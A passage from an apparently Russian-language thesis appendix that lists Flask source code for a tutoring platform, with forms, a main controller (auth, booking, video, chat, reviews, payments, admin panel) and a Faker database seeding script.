    _transaction_ref = db.Column('transaction_ref', db.String(512))
    created_at = db.Column(db.DateTime, default=datetime.utcnow)

    lesson = db.relationship('Lesson', backref=db.backref('payment', uselist=False))
    payer = db.relationship('User')

    @property
    def transaction_ref(self):
        return decrypt_data(self._transaction_ref)

    @transaction_ref.setter
    def transaction_ref(self, value):
        self._transaction_ref = encrypt_data(value)
```

<div style="page-break-after: always;"></div>

## А.4 Валидационные формы веб-интерфейса (forms.py)

```python
from flask_wtf import FlaskForm
from wtforms import (StringField, PasswordField, SubmitField, TextAreaField,
                     IntegerField, FloatField, DateTimeLocalField)
from wtforms.validators import DataRequired, Email, Length, NumberRange, Optional


class RegisterForm(FlaskForm):
    email = StringField('Email', validators=[DataRequired(), Email()])
    password = PasswordField('Пароль', validators=[DataRequired(), Length(min=6)])
    submit = SubmitField('Зарегистрироваться')


class LoginForm(FlaskForm):
    email = StringField('Email', validators=[DataRequired(), Email()])
    password = PasswordField('Пароль', validators=[DataRequired()])
    submit = SubmitField('Войти')


class SearchForm(FlaskForm):
    """Форма поиска преподавателя — GET-параметры, CSRF отключён для удобства."""
    subject = StringField('Предмет', validators=[Optional()])
    max_price = FloatField('Макс. цена (₽/час)', validators=[Optional()])
    submit = SubmitField('Найти')


class BookLessonForm(FlaskForm):
    """Форма записи на урок."""
    lesson_date = DateTimeLocalField('Дата и время урока',
                                     format='%Y-%m-%dT%H:%M',
                                     validators=[DataRequired()])
    submit = SubmitField('Записаться')


class ReviewForm(FlaskForm):
    """Форма отзыва. Поле comment очищается от XSS в маршруте."""
    rating = IntegerField('Оценка (1–5)', validators=[DataRequired(), NumberRange(min=1, max=5)])
    comment = TextAreaField('Комментарий', validators=[DataRequired(), Length(max=1000)])
    submit = SubmitField('Оставить отзыв')


class ChatMessageForm(FlaskForm):
    """Форма сообщения чата. Поле content очищается от XSS в маршруте."""
    content = TextAreaField('Сообщение', validators=[DataRequired(), Length(max=2000)])
    submit = SubmitField('Отправить')


class PaymentForm(FlaskForm):
    """Форма оплаты урока. Сумма дополнительно проверяется на сервере."""
    amount = FloatField('Сумма (₽)', validators=[DataRequired()])
    submit = SubmitField('Оплатить')
```

<div style="page-break-after: always;"></div>

## А.5 Основной контроллер веб-приложения (app.py)

```python
import secrets
import bleach
from flask import Flask, render_template, redirect, url_for, flash, request, abort, jsonify
from flask_login import LoginManager, login_user, logout_user, login_required, current_user
from config import Config
from extensions import db, csrf
import models
from models import User, TutorProfile, Lesson, Review, Chat, ChatMessage, Payment
from forms import (
    RegisterForm, LoginForm, ReviewForm, ChatMessageForm,
    BookLessonForm, SearchForm, PaymentForm
)

app = Flask(__name__)
app.config.from_object(Config)

db.init_app(app)
csrf.init_app(app)
login_manager = LoginManager(app)
login_manager.login_view = 'login'


@login_manager.user_loader
def load_user(user_id):
    return User.query.get(int(user_id))


with app.app_context():
    db.create_all()


# ─────────────────────────────────────────────
# ГЛАВНАЯ
# ─────────────────────────────────────────────
@app.route('/')
def index():
    return render_template('index.html')


# ─────────────────────────────────────────────
# АВТОРИЗАЦИЯ
# ─────────────────────────────────────────────
@app.route('/register', methods=['GET', 'POST'])
def register():
    form = RegisterForm()
    if form.validate_on_submit():
        if User.query.filter_by(email=form.email.data).first():
            flash('Пользователь с таким email уже существует', 'danger')
            return redirect(url_for('register'))

        new_user = User(email=form.email.data, role='student')
        new_user.set_password(form.password.data)
        db.session.add(new_user)
        db.session.commit()
        flash('Регистрация успешна! Теперь войдите.', 'success')
        return redirect(url_for('login'))
    return render_template('register.html', form=form)


@app.route('/login', methods=['GET', 'POST'])
def login():
    form = LoginForm()
    if form.validate_on_submit():
        user = User.query.filter_by(email=form.email.data).first()
        if user and user.check_password(form.password.data):
            login_user(user)
            return redirect(url_for('index'))
        flash('Неверный email или пароль', 'danger')
    return render_template('login.html', form=form)


@app.route('/logout')
@login_required
def logout():
    logout_user()
    return redirect(url_for('index'))


# ─────────────────────────────────────────────
# ПРОФИЛЬ
# ─────────────────────────────────────────────
@app.route('/profile', methods=['GET', 'POST'])
@login_required
def profile():
    user_profile = TutorProfile.query.filter_by(user_id=current_user.id).first()
    if request.method == 'POST':
        new_bio = request.form.get('bio', '')
        safe_bio = bleach.clean(new_bio, tags=[], strip=True)
        if user_profile:
            user_profile.bio = safe_bio
        else:
            user_profile = TutorProfile(user_id=current_user.id, subject='Не указан', hourly_rate=0, bio=safe_bio)
            db.session.add(user_profile)
        db.session.commit()
        flash('Биография обновлена', 'success')
        return redirect(url_for('profile'))
    return render_template('profile.html', profile=user_profile)


# ─────────────────────────────────────────────
# ПОИСК ПРЕПОДАВАТЕЛЕЙ
# ─────────────────────────────────────────────
@app.route('/tutors')
def tutors():
    form = SearchForm(request.args, meta={'csrf': False})
    query = db.session.query(User, TutorProfile)\
        .join(TutorProfile, User.id == TutorProfile.user_id)\
        .filter(User.role == 'tutor')

    subject = request.args.get('subject', '').strip()
    max_price = request.args.get('max_price', '').strip()

    if subject:
        query = query.filter(TutorProfile.subject.ilike(f'%{subject}%'))
    if max_price:
        try:
            query = query.filter(TutorProfile.hourly_rate <= float(max_price))
        except ValueError:
            pass

    tutors_list = query.all()
    return render_template('tutors.html', tutors=tutors_list, form=form,
                           subject=subject, max_price=max_price)


# ─────────────────────────────────────────────
# ЗАПИСЬ НА УРОК (создание Lesson)
# ─────────────────────────────────────────────
@app.route('/book/<int:tutor_id>', methods=['GET', 'POST'])
@login_required
def book_lesson(tutor_id):
    tutor = User.query.get_or_404(tutor_id)
    if tutor.role != 'tutor':
        abort(404)
    form = BookLessonForm()
    if form.validate_on_submit():
        room_name = f"tutor-platform-{secrets.token_hex(8)}"
        lesson = Lesson(
            tutor_id=tutor.id,
            student_id=current_user.id,
            date=form.lesson_date.data,
            status='scheduled',
            video_room=room_name,
        )
        db.session.add(lesson)
        db.session.commit()
        flash('Урок успешно запланирован!', 'success')
        return redirect(url_for('calendar'))
    return render_template('book_lesson.html', form=form, tutor=tutor)


# ─────────────────────────────────────────────
# КАЛЕНДАРЬ УРОКОВ
# ─────────────────────────────────────────────
@app.route('/calendar')
@login_required
def calendar():
    if current_user.role == 'tutor':
        lessons = Lesson.query.filter_by(tutor_id=current_user.id).order_by(Lesson.date).all()
    else:
        lessons = Lesson.query.filter_by(student_id=current_user.id).order_by(Lesson.date).all()
    return render_template('calendar.html', lessons=lessons)


# ─────────────────────────────────────────────
# ВИДЕОСВЯЗЬ (Jitsi Meet)
# ─────────────────────────────────────────────
@app.route('/video/<int:lesson_id>')
@login_required
def video_call(lesson_id):
    lesson = Lesson.query.get_or_404(lesson_id)
    # Доступ только участникам урока
    if current_user.id not in (lesson.tutor_id, lesson.student_id):
        abort(403)
    return render_template('video_call.html', lesson=lesson,
                           room=lesson.video_room)


# ─────────────────────────────────────────────
# ЧАТ (с защитой от XSS через bleach)
# ─────────────────────────────────────────────
@app.route('/chat/<int:lesson_id>', methods=['GET', 'POST'])
@login_required
def chat(lesson_id):
    lesson = Lesson.query.get_or_404(lesson_id)
    if current_user.id not in (lesson.tutor_id, lesson.student_id):
        abort(403)

    # Создаём чат-комнату, если её нет
    if not lesson.chat:
        new_chat = Chat(lesson_id=lesson.id)
        db.session.add(new_chat)
        db.session.commit()

    chat_obj = lesson.chat
    form = ChatMessageForm()

    if form.validate_on_submit():
        # ── XSS-защита: очищаем текст от HTML-тегов до сохранения в БД ──
        safe_content = bleach.clean(
            form.content.data,
            tags=[],          # никакие теги не разрешены
            strip=True
        )
        msg = ChatMessage(chat_id=chat_obj.id, sender_id=current_user.id, content=safe_content)
        db.session.add(msg)
        db.session.commit()
        return redirect(url_for('chat', lesson_id=lesson_id))

    messages = chat_obj.messages.all()
    return render_template('chat.html', lesson=lesson, messages=messages, form=form)


# ─────────────────────────────────────────────
# ОТЗЫВЫ (с защитой от XSS через bleach)
# ─────────────────────────────────────────────
@app.route('/reviews/<int:tutor_id>', methods=['GET', 'POST'])
@login_required
def reviews(tutor_id):
    tutor = User.query.get_or_404(tutor_id)
    form = ReviewForm()

    if form.validate_on_submit():
        # ── XSS-защита: очищаем комментарий перед сохранением ──
        safe_comment = bleach.clean(
            form.comment.data,
            tags=[],
            strip=True
        )
        review = Review(
            tutor_id=tutor.id,
            student_id=current_user.id,
            rating=form.rating.data,
            comment=safe_comment,
        )
        db.session.add(review)
        db.session.commit()
        flash('Отзыв опубликован!', 'success')
        return redirect(url_for('reviews', tutor_id=tutor_id))

    tutor_reviews = Review.query.filter_by(tutor_id=tutor_id)\
        .order_by(Review.created_at.desc()).all()
    return render_template('reviews.html', tutor=tutor, reviews=tutor_reviews, form=form)


# ─────────────────────────────────────────────
# ПЛАТЁЖНЫЕ ТРАНЗАКЦИИ
# ─────────────────────────────────────────────
@app.route('/pay/<int:lesson_id>', methods=['GET', 'POST'])
@login_required
def pay_lesson(lesson_id):
    lesson = Lesson.query.get_or_404(lesson_id)

    # Только студент этого урока может платить
    if current_user.id != lesson.student_id:
        abort(403)

    # Проверяем, нет ли уже оплаченного платежа
    existing = Payment.query.filter_by(lesson_id=lesson.id, status='paid').first()
    if existing:
        flash('Этот урок уже оплачен.', 'info')
        return redirect(url_for('calendar'))

    tutor_profile = TutorProfile.query.filter_by(user_id=lesson.tutor_id).first()
    amount = tutor_profile.hourly_rate if tutor_profile else 0
    form = PaymentForm()

    if form.validate_on_submit():
        # Валидация суммы — защита от подмены суммы на клиенте
        if abs(float(form.amount.data) - amount) > 0.01:
            flash('Ошибка: сумма платежа не совпадает. Транзакция отклонена.', 'danger')
            return redirect(url_for('pay_lesson', lesson_id=lesson_id))

        # Генерация уникального ID транзакции (в реальной системе — ответ платёжного шлюза)
        transaction_id = secrets.token_urlsafe(32)

        payment = Payment(
            lesson_id=lesson.id,
            payer_id=current_user.id,
            amount=amount,
            status='paid',
        )
        # ── ID транзакции сохраняется ЗАШИФРОВАННЫМ в БД (Fernet) ──
        payment.transaction_ref = transaction_id

        lesson.status = 'paid'
        db.session.add(payment)
        db.session.commit()

        flash(f'Оплата успешна! Транзакция #{transaction_id[:12]}...', 'success')
        return redirect(url_for('calendar'))

    return render_template('payment.html', lesson=lesson, amount=amount, form=form)


# ─────────────────────────────────────────────
# ПАНЕЛЬ АДМИНИСТРАТОРА
# ─────────────────────────────────────────────
@app.route('/admin')
@login_required
def admin_panel():
    if current_user.role != 'admin':
        abort(403)
    users = User.query.all()
    reviews_list = Review.query.order_by(Review.created_at.desc()).all()
    payments = Payment.query.order_by(Payment.created_at.desc()).all()
    return render_template('admin.html', users=users, reviews=reviews_list, payments=payments)


@app.route('/admin/delete_review/<int:review_id>', methods=['POST'])
@login_required
def delete_review(review_id):
    if current_user.role != 'admin':
        abort(403)
    review = Review.query.get_or_404(review_id)
    db.session.delete(review)
    db.session.commit()
    flash('Отзыв удалён.', 'success')
    return redirect(url_for('admin_panel'))


if __name__ == '__main__':
    app.run(debug=True)
```

<div style="page-break-after: always;"></div>

## А.6 Скрипт наполнения базы данных тестовыми данными (seed_db.py)

```python
import random
from faker import Faker
from datetime import datetime, timedelta
from app import app
from extensions import db
from models import User, TutorProfile, Lesson, Review

fake = Faker('ru_RU')

def seed_database():
    with app.app_context():
        
        db.drop_all()
        db.create_all()
        
        print("🌱 Начинаем генерацию данных...")
        
        
        users = []
        for i in range(100):
            user = User(
                email=fake.email(),
                role=random.choice(['student', 'tutor']),
                phone=fake.phone_number()
            )
            user.set_password('password123')  # Одинаковый пароль для всех
            users.append(user)
            db.session.add(user)
        
        db.session.commit()
        print(f"✅ Создано {len(users)} пользователей")
        
        
        tutors = [u for u in users if u.role == 'tutor']
        subjects = ['Математика', 'Физика', 'Английский', 'Русский', 'Информатика', 'Химия']
        
        tutor_profiles = []
        for tutor in tutors:
            profile = TutorProfile(
                user_id=tutor.id,
                subject=random.choice(subjects),
                hourly_rate=random.uniform(500, 3000),
                bio=fake.text(max_nb_chars=200)
            )
            tutor_profiles.append(profile)
            db.session.add(profile)
        
        db.session.commit()
        print(f"✅ Создано {len(tutor_profiles)} профилей репетиторов")
        
        
        lessons = []
        students = [u for u in users if u.role == 'student']
        
        for _ in range(5000):
            if students and tutors:
                lesson = Lesson(
                    tutor_id=random.choice(tutors).id,
                    student_id=random.choice(students).id,
                    date=fake.date_time_between(start_date='-1y', end_date='+1y'),
                    status=random.choice(['scheduled', 'completed', 'cancelled'])
                )
                lessons.append(lesson)
                db.session.add(lesson)
        
        db.session.commit()
        print(f"✅ Создано {len(lessons)} уроков")
        
        
        reviews = []
        completed_lessons = [l for l in lessons if l.status == 'completed']
        
        for lesson in completed_lessons[:2000]:  # Берем первые 2000 завершенных уроков
            review = Review(
                lesson_id=lesson.id,
                student_id=lesson.student_id,
                rating=random.randint(3, 5),
                comment=fake.text(max_nb_chars=150)
            )
            reviews.append(review)
            db.session.add(review)
        
        db.session.commit()
        print(f"✅ Создано {len(reviews)} отзывов")
        
        print("\n🎉 База данных успешно наполнена!")
        print(f"📊 Всего записей: {len(users) + len(tutor_profiles) + len(lessons) + len(reviews)}")

if __name__ == '__main__':
    seed_database()
```
